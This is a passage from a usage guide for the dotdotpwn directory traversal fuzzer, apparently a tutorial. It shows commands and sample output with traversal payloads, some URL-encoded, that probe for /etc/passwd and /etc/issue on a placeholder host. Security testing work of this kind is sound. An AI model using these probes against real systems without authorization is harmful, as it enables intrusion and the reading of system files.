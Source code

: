 ### Specified Filename

Use option `-f` to test specified filename.

```sh
dotdotpwn -m http -h example.com -f /etc/psw
```

```
[*] HTTP Status: 400 | Testing Path: http://eaxmple.com:80/../etc/psw
[*] HTTP Status: 400 | Testing Path: http://eaxmple.com:80/../../etc/psw
[*] HTTP Status: 400 | Testing Path: http://eaxmple.com:80/../../../etc/psw
[*] HTTP Status: 400 | Testing Path: http://eaxmple.com:80/../../../../etc/psw
[*] HTTP Status: 400 | Testing Path: http://eaxmple.com:80/../../../../../etc/psw
```

### File Extension

Use option `-e` to append extension to each request.

```sh
dotdotpwn -m http -h example.com -e .php
```

```
[*] HTTP Status: 403 | Testing Path: http://example.com:80/../etc/passwd.php
[*] HTTP Status: 403 | Testing Path: http://example.com:80/../etc/issue.php
[*] HTTP Status: 404 | Testing Path: http://example.com:80/../../etc/passwd.php
[*] HTTP Status: 404 | Testing Path: http://example.com:80/../../etc/issue.php
[*] HTTP Status: 404 | Testing Path: http://example.com:80/../../../etc/passwd.php
...
```

### Bisection Algorithm

Once a vulnerability is discovered, employ the Bisection Algorithm to determine its precise depth.

```sh
dotdotpwn -m http -h example.com -X
```

```
[*] HTTP Status: 404 | Testing Path: http://example.com:80/../../../../../../../../../../../../../../../../etc/passwd
[*] HTTP Status: 404 | Testing Path: http://example.com:80/../../../../../../../../../../../../../../../../etc/issue
[*] HTTP Status: 404 | Testing Path: http://example.com:80/..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5Cetc%5Cpasswd
[*] HTTP Status: 404 | Testing Path: http://example.com:80/..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5Cetc%5Cissue
[*] HTTP Status: 404 | Testing Path: http://example.com:80/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
...
```

### Continue Even No Data Received
